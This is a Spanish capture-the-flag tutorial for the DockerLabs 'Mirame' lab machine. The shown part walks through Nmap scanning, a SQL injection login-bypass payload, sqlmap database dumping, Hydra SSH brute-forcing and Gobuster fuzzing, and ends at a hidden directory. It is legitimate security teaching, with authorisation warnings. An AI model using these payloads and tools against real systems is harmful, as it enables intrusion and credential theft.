# DockerLabs - Máquina Mirame
> Laboratorio práctico realizado en entorno local y controlado de DockerLabs.

## Resumen
Este write-up documenta la resolución paso a paso de la máquina **Mirame** de DockerLabs, siguiendo una metodología de auditoría técnica: reconocimiento, enumeración web, explotación controlada de SQL Injection, análisis con SQLMap, descubrimiento de recursos ocultos, esteganografía, acceso por SSH y escalada de privilegios mediante un binario SUID mal configurado.

## Advertencia de uso
Esta práctica debe realizarse únicamente en entornos locales, controlados o expresamente autorizados. No debe utilizarse contra sistemas reales sin autorización.

**Máquina: Mirame | Dificultad: Fácil | Entorno: DockerLabs**

> **IMPORTANTE**
> Esta práctica debe realizarse únicamente en el entorno local de DockerLabs o en un laboratorio autorizado. No se deben usar estos comandos contra equipos, servidores, páginas web o redes reales sin autorización expresa.


## Objetivo de la práctica

En esta práctica vamos a trabajar con la máquina vulnerable Mirame de DockerLabs en un entorno local y controlado. El objetivo no es atacar sistemas reales, sino seguir una metodología ordenada de auditoría técnica: reconocimiento, enumeración web, análisis de un formulario vulnerable, explotación controlada de SQL Injection, búsqueda de recursos ocultos, análisis esteganográfico, acceso por SSH y escalada de privilegios mediante un binario SUID mal configurado.

Levantar una máquina vulnerable en DockerLabs.

Comprobar conectividad con la máquina objetivo.

Identificar los puertos abiertos con Nmap.

Interpretar los servicios detectados: SSH y HTTP.

Revisar el servicio web y detectar un formulario de autenticación.

Comprobar de forma controlada una vulnerabilidad SQL Injection.

Interceptar una petición HTTP con Burp Suite para analizarla con SQLMap.

Extraer información de la base de datos con SQLMap dentro del laboratorio.

Guardar usuarios y contraseñas obtenidos en archivos de trabajo.

Realizar una prueba de acceso SSH con Hydra y comprobar que no es el vector correcto.

Reutilizar el diccionario de contraseñas para localizar un directorio oculto con Gobuster.

Descargar y analizar una imagen sospechosa.

Usar Exiftool, Stegseek y Steghide para analizar información oculta.

Extraer un archivo ZIP oculto y obtener credenciales válidas para SSH.

Acceder al sistema como el usuario carlos.

Enumerar binarios SUID y localizar /usr/bin/find con permisos inseguros.

Escalar privilegios a root utilizando find con -exec y bash -p.

Crear una evidencia final de acceso root.

Reflexionar sobre medidas defensivas: validación de entradas, protección de credenciales, control de permisos SUID y revisión de información oculta en archivos.

## Ficha rápida de la máquina

| Campo | Valor orientativo |
| --- | --- |
| Plataforma | DockerLabs |
| Máquina | Mirame |
| Dificultad | Fácil |
| Sistema esperado | Linux |
| Servicios esperados | SSH en el puerto 22 y HTTP en el puerto 80 |
| Vector principal | Formulario vulnerable a SQL Injection -> SQLMap -> credenciales para fuzzing -> directorio oculto -> imagen con esteganografía |
| Acceso inicial esperado | Usuario carlos por SSH |
| Credenciales obtenidas | carlos:carlitos |
| Escalada de privilegios | Binario /usr/bin/find con SUID activo |
| IP de ejemplo | 172.17.0.2. Cada alumno debe usar la IP que le asigne su despliegue. |


> **Nota**
> En la guía usaremos como ejemplo la IP 172.17.0.2. En algunos despliegues puede aparecer otra IP, por ejemplo 172.17.0.3. Sustituye siempre la IP de ejemplo por la que aparezca en tu terminal.


## Preparación del entorno

Descargamos la máquina Mirame desde DockerLabs y la guardamos en una carpeta de trabajo dentro de Kali Linux. En este ejemplo trabajaremos en una carpeta llamada mirame dentro de Laboratorio.



```bash
mkdir -p ~/Desktop/Laboratorio/mirame
cd ~/Desktop/Laboratorio/mirame
ls
```

En el writeup de referencia la máquina se descomprime desde un archivo llamado backend.zip. Si el archivo descargado en tu caso tiene otro nombre, usa el nombre real que tengas en la carpeta.

```bash
unzip backend.zip
ls
```

Deberíamos ver al menos estos archivos:

auto_deploy.sh: script que despliega la máquina vulnerable.

mirame.tar: imagen vulnerable de DockerLabs.

## Herramientas que se usarán durante la práctica

Antes de avanzar, comprobamos que tenemos disponibles las herramientas necesarias. En Kali Linux muchas vienen instaladas, pero podemos preparar el entorno con el siguiente comando si falta alguna.

```bash
sudo apt update
sudo apt install nmap gobuster hydra sqlmap burpsuite exiftool steghide stegseek -y
```

> **Nota**
> Si stegseek no encuentra el diccionario rockyou.txt, comprueba si está comprimido como /usr/share/wordlists/rockyou.txt.gz. En ese caso, puedes descomprimirlo con: sudo gzip -d /usr/share/wordlists/rockyou.txt.gz


## Paso 1 · Levantar la máquina vulnerable

Ejecutamos el script de despliegue. Si el script no tiene permisos de ejecución, podemos usar directamente bash con sudo, igual que en las prácticas anteriores.

```bash
sudo bash auto_deploy.sh mirame.tar
```

Cuando el despliegue termine, el script mostrará una IP similar a esta:

Máquina desplegada, su dirección IP es -> 172.17.0.2

Anotamos la IP porque la usaremos durante toda la práctica. La terminal del despliegue debe quedarse abierta mientras trabajamos con la máquina.



## Paso 2 · Comprobar conectividad con la máquina

Abrimos una segunda terminal de Kali y comprobamos que la máquina responde. Usaremos la IP que nos haya mostrado el despliegue.

```bash
ping -c 4 172.17.0.2
```

Si responde correctamente, podemos continuar con el reconocimiento. Si no responde, revisamos que la máquina esté levantada y que estamos usando la IP correcta.

```bash
sudo docker ps -a
```

> **Nota**
> Si el ping muestra TTL=64, es una pista habitual de sistemas Linux/Unix. No es una prueba absoluta, pero ayuda a orientar el reconocimiento inicial.




## Paso 3 · Reconocimiento inicial de puertos con Nmap

Vamos a reconocer los puertos abiertos de la máquina. Usamos un escaneo completo de puertos TCP y guardamos el resultado para poder documentarlo mejor.

```bash
sudo nmap -p- -sS --min-rate 5000 -vvv -n -Pn 172.17.0.2 -oN escaneo_mirame.txt
```

| Parámetro | Significado |
| --- | --- |
| -p- | Escanea todos los puertos TCP, del 1 al 65535. |
| -sS | Realiza un escaneo SYN scan. |
| --min-rate 5000 | Intenta acelerar el envío de paquetes. |
| -vvv | Muestra salida detallada durante el escaneo. |
| -n | Evita la resolución DNS para acelerar el escaneo. |
| -Pn | No realiza ping previo y trata la máquina como activa. |
| -oN escaneo_mirame.txt | Guarda el resultado del escaneo en un archivo de texto normal. |


Resultado esperado: deberíamos encontrar dos servicios importantes:

Puerto 22/tcp abierto: SSH.

Puerto 80/tcp abierto: HTTP.



## Paso 4 · Enumerar versiones de los servicios detectados

Una vez localizados los puertos abiertos, hacemos un escaneo más concreto para obtener versiones, banners y scripts básicos de Nmap.

```bash
sudo nmap -sCV -p22,80 172.17.0.2 -oN servicios_mirame.txt
```



También podemos revisar rápidamente los puertos abiertos guardados en el archivo anterior.

```bash
grep open escaneo_mirame.txt
```

## Paso 5 · Interpretar los servicios encontrados

Antes de avanzar, debemos entender qué nos está diciendo Nmap. En esta máquina aparecen dos caminos claros de análisis:

| Puerto | Servicio | Interpretación |
| --- | --- | --- |
| 22/tcp | SSH | Permite acceso remoto al sistema si conseguimos credenciales válidas. |
| 80/tcp | HTTP | Permite revisar una página web que contiene el formulario vulnerable y pistas para continuar. |


> **Idea importante**
> Aunque el acceso final será por SSH, el camino empieza en la web. La enumeración web y el análisis del formulario serán claves para llegar a las credenciales correctas.


## Paso 6 · Revisar el servicio web HTTP

Como el puerto 80 está abierto, revisamos la web desde el navegador.

```bash
http://172.17.0.2
```



También podemos comprobar la respuesta desde terminal:

```bash
curl -I http://172.17.0.2
curl -s http://172.17.0.2 | head
```

En esta máquina veremos una aplicación con un formulario de autenticación. A simple vista parece un login normal, pero será el punto donde realizaremos las primeras pruebas controladas.



## Paso 7 · Probar credenciales por defecto y observar el formulario

Antes de lanzar herramientas automáticas, probamos de forma manual el comportamiento del formulario. Podemos intentar credenciales típicas como admin/admin o admin/password, pero en el writeup base no se obtiene acceso con credenciales por defecto.

El objetivo de este paso no es acertar una contraseña, sino observar cómo responde la aplicación ante entradas normales y preparar la prueba de inyección SQL.



## Paso 8 · Comprobar SQL Injection de forma manual

Ahora realizamos una prueba controlada de inyección SQL sobre el formulario de login. La siguiente carga permite saltarse la autenticación en el laboratorio:

```bash
admin' OR '1'='1' -- -
```

También podemos introducir únicamente una comilla simple para observar si el servidor devuelve un error de base de datos.

'

> **Explicación breve**
> Si al introducir una comilla simple aparece un error de base de datos, es una señal de que la entrada del usuario se está incorporando a una consulta SQL sin una validación correcta. El payload con OR 1=1 intenta convertir la condición de autenticación en verdadera.




## Paso 9 · Interceptar la petición con Burp Suite

Para automatizar el análisis con SQLMap, interceptamos la petición HTTP del formulario con Burp Suite y la guardamos en un archivo llamado petici.req.

Proceso similar a la práctica anterior dentro de Burp Suite:

1. Colócate en tu carpeta de trabajo

En Kali, en la carpeta donde estás haciendo la práctica:

```bash
cd ~/Desktop/Laboratorio/miramepwd
```

La ruta que te salga la vas a necesitar para guardar ahí el archivo petici.req.

2. Abre Burp Suite

Abre Burp Suite y entra con un proyecto temporal:

```bash
burpsuite
```

Cuando cargue, vete a:

```bash
Proxy -> Intercept
```

Ten pendiente de Activar el Intercepto n.

Burp permite interceptar peticiones HTTP entre el navegador y el servidor desde Proxy > Intercept, y su navegador integrado ya viene preparado para pasar el tráfico por Burp.

3. Abre el navegador de Burp

Dentro de Burp, pulsa:

```bash
Open Browser
```

Se abrirá un navegador nuevo.

En ese navegador entra en:

```bash
http://172.17.0.2
```

Verás la página de login.

Activa el Intercept on

4. Envía el formulario de login

En el formulario puedes probar cualquier dato, por ejemplo:

Usuario: adminContraseña: admin

o:

Usuario: testContraseña: test

Pulsa el botón de login.

En ese momento, Burp debería parar la petición en:

```bash
Proxy -> Intercept
```

Lo importante es que veas algo parecido a esto:

```bash
POST / HTTP/1.1Host: 172.17.0.2Content-Type: application/x-www-form-urlencodedusername=admin&password=admin
```



Puede que los campos no se llamen exactamente username y password, pero debe ser una petición POST relacionada con el login.

5. Guarda la petición como petici.req

La forma más sencilla y segura para SQLMap es copiar la petición en crudo.

En Burp, dentro de la petición interceptada:

Selecciona la pestaña Raw.

Haz clic dentro del texto de la petición.

Pulsa:

```bash
Ctrl + ACtrl + C
```

Ahora ve a una terminal de Kali, dentro de tu carpeta de trabajo, y crea el archivo:

```bash
nano petici.req
```

Pega la petición con:

```bash
Ctrl + Shift + V
```

Guarda con:

```bash
Ctrl + OEnterCtrl + X
```

Comprueba que se ha guardado:

```bash
ls -l petici.reqcat petici.req
```



6. Deja pasar la petición en Burp

Después de copiarla, en Burp pulsa:

```bash
Forward
```

o desactiva:

```bash
Intercept off
```



## Paso 10 · Explotación controlada con SQLMap

Con la petición guardada, usamos SQLMap para explotar la vulnerabilidad y extraer el contenido de la base de datos dentro del laboratorio.

```bash
sqlmap -r petici.req --level=5 --risk=3 --dump
```

| Parámetro | Significado |
| --- | --- |
| -r petici.req | Indica a SQLMap que utilice la petición HTTP guardada desde Burp Suite. |
| --level=5 | Aumenta la profundidad de las pruebas realizadas. |
| --risk=3 | Permite pruebas más agresivas dentro del laboratorio controlado. |
| --dump | Extrae el contenido de las tablas detectadas. |


Al finalizar el proceso, SQLMap debería extraer registros con usuarios y contraseñas almacenadas en la base de datos.



Parece que la base de datos es MySQL. Luego vamos dando yes hasta que lleguemos al final…

Sacamos esto:



## Paso 11 · Guardar usuarios y contraseñas extraídos

Las credenciales extraídas con SQLMap se guardan en archivos de texto para usarlas después en pruebas controladas. Debemos copiar los usuarios en user.txt y las contraseñas en password.txt, un valor por línea.

Vemos el archivo:

```bash
cat /home/kali/.local/share/sqlmap/output/172.17.0.2/dump/users/usuarios.csv
```



Copiamos el archivo a nuestra carpeta para trabajar más cómodo:

```bash
cp /home/kali/.local/share/sqlmap/output/172.17.0.2/dump/users/usuarios.csv usuarios.csv
```



Comprobamos:

```bash
ls -l
```



> **Nota**
> No debemos inventar usuarios ni contraseñas. En este paso solo copiamos los datos que SQLMap haya mostrado en nuestra propia ejecución del laboratorio.


Ahora creamos un archivo llamado user.txt con los usuarios extraídos de la columna 3 para poder trabajar con otras herramientas:

```bash
tail -n +2 usuarios.csv | cut -d',' -f3 > user.txt
```





Después creamos un archivo llamado password.txt con las contraseñas extraídas de la columna 2:

```bash
tail -n +2 usuarios.csv | cut -d',' -f2 > password.txt
```



Comprobamos el contenido de ambos archivos:

```bash
cat user.txt
cat password.txt
```

El archivo user.txt debe contener los nombres de usuario, uno por línea. El archivo password.txt debe contener las contraseñas, también una por línea.



## Paso 12 · Enumeración inicial de rutas con Gobuster

Después de analizar el login, realizamos una enumeración de rutas web con Gobuster para localizar posibles directorios o archivos ocultos.

```bash
gobuster dir -u http://172.17.0.2/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt,zip -t 64
```

En el writeup base, esta enumeración inicial no aporta un vector relevante. Aun así, es un paso útil porque nos enseña a no depender únicamente de una sola técnica.



## Paso 13 · Probar credenciales contra SSH con Hydra

Con los archivos user.txt y password.txt preparados, realizamos una prueba de diccionario controlada contra SSH.

```bash
hydra -L user.txt -P password.txt ssh://172.17.0.2 -t 4 -f
```



Eso significa que las credenciales extraídas con SQLMap no sirven directamente para SSH. No es un fallo tuyo: en el writeup base también se indica que se prueban esas credenciales contra SSH, pero no se obtiene acceso exitoso.

Lo importante ahora es que no nos quedamos en Hydra. El siguiente paso es reutilizar lo que hemos sacado de SQLMap, especialmente el archivo password.txt, para hacer un nuevo Gobuster. La pista clave es que una de las contraseñas era:

```bash
directoriotravieso
```

> **Nota sobre el comando**
> Usamos -L porque user.txt contiene una lista de usuarios y -P porque password.txt contiene una lista de contraseñas. Si solo se probara una contraseña concreta, se usaría -p en minúscula. En esta máquina, el writeup indica que esta técnica no obtiene acceso exitoso.


## Paso 14 · Descubrir un directorio oculto reutilizando password.txt

Como Hydra no consigue acceso, reutilizamos el archivo password.txt como diccionario para hacer una nueva enumeración web. Esta vez añadimos extensiones sensibles y filtramos respuestas poco útiles.

```bash
gobuster dir -u http://172.17.0.2/ -w password.txt -x env,php,bak,old,zip,txt -b 403,404 --exclude-length 329
```

| Parámetro | Significado |
| --- | --- |
| -w password.txt | Usa como diccionario las contraseñas extraídas previamente. |
| -x .env,.php,.bak,.old,.zip,.txt | Prueba extensiones habituales de archivos sensibles o de respaldo. |
| -b 403,404 | Oculta respuestas de acceso prohibido o recurso no encontrado. |
| --exclude-length 329 | Excluye respuestas repetidas con esa longitud para limpiar la salida. |


Resultado esperado: el escaneo permite descubrir el directorio oculto:

```bash
http://172.17.0.2/directoriotravieso/
```

